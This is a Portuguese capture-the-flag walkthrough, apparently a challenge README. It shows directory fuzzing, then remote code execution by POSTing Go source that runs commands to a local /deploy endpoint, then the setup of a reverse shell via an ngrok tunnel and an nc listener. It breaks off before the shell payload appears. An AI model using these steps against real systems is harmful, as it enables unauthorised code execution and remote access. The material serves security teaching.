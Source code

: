 Para acessar o desafio, siga estas etapas:

Acesse a página do desafio. Ao entrar, você verá a seguinte imagem:

![alt text](images/init.png)

Após encontrar irá utilizar fuzer, com o ffuf ou gobuster para encontrar path que não estão aparente, após rodar irá encontrar os seguintes path

```sh
/public -> pasta publica
/health -> verificação de container ativo
/deploy
```

após encontrar a pasta publica terá que encontrar um arquivo dentro dela mas a mesma só recebe query params, segue a imagem abaixo:

![alt text](images/public.png)

com base nisso terá que rodar um novo fuzzer mas com uma terminação aparente que é .sh, após rodar o fuzzy irá encontrar a seguinte arquivo.

![alt text](images/deploy.png)


Após encontrar esse arquivo, ele irá dar uma flag por conta do fuzz, com isso iremos rodar o comando que achamos.

```sh
curl -X POST -d 'package main

import (
	"fmt"
	"os/exec"
)

func main() {
	// Comando para executar o script shell
	cmd := exec.Command("cat", "flag.txt")

	// Executa o comando e captura a saÃ­da
	output, err := cmd.CombinedOutput()
	if err != nil {
		fmt.Println("Erro ao executar o script:", err)
		return
	}

	// Imprime a saÃ­da do script
	fmt.Println(string(output))
}
' http://localhost:8080/deploy

```
Retornando o seguinte valor:

![alt text](images/deploy-exec.png)

Com o retorno acima identificamos que não tem flag nesse arquivo mas nos dar portas para acessar esse container usando shell reverse em golang.

Primeiro passo crie um proxy reverse com ngrok

![alt text](images/ngrock.png)

Após subir o container coloque o seu ngrock no campo do shell com shell reverse para a port a do seu nc

nc 
```sh
nc -l 127.0.0.1 4444
```
curl
```sh

```

